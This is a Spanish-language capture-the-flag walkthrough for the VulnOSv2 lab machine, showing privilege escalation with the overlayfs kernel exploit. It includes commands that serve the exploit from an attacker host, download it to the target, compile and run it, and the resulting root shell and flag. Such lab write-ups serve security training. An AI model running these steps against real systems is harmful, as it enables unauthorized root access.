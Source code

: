 Una vez adentro el usuario no levanta ningún interprete de comandos, se soluciona fácil ejecutando el siguiente comando ``/bin/bash``.

Después de buscar un rato apareció un exploit de kernel:

```console
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Lo | exploits/linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Lo | exploits/linux/local/37293.txt
----------------------------------------------------------------------------- ----------------------------------------
```
Manos a la obra.

Levanté un servidor web en python para descargarlo desde la VM atacada:

>**``python -m SimpleHTTPServer 80``**

Desde la VM atacada:

>**``http://10.0.0.99/37292.c``**

```console
webmin@VulnOSv2:~$ mv 37292.c ofs.c
webmin@VulnOSv2:~$ gcc ofs.c -o ofs
webmin@VulnOSv2:~$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
```
---

### **Flag**
---
root@VulnOSv2:/root# cat flag.txt 
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
---


### **Conclusión**

---

Esta VM no fue muy dificil pero use dos cosas que no están muy recomendadas:

 - SQLMap
 - Exploit de Kernel

 SQLMap no está permitido para el exámen y un exploit de **Kernel** muchas veces puede colgar la VM atacada.

---